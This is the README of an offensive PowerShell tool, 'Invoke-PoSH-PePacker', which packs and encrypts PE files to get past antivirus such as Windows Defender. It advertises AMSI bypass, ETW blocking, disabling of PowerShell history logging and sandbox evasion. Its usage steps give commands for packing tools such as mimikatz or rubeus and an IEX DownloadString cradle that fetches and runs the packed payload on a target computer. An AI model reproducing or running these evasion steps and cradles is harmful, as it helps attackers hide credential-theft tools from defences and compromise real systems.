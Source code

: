 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate a packed & encrypted version of a PowerShell script (e.g. invoke-mimikatz.ps1, invoke-rubeus.ps1) stored locally or on a remote web server
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
--- or ---
PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
``` 
```
PS C:\> Import-Module ./Invoke-PoSH-PePacker.ps1
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
--- or ---
PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
  - Step 2. Download & execute the packed & encrypted PowerShell script on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...
--- or ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
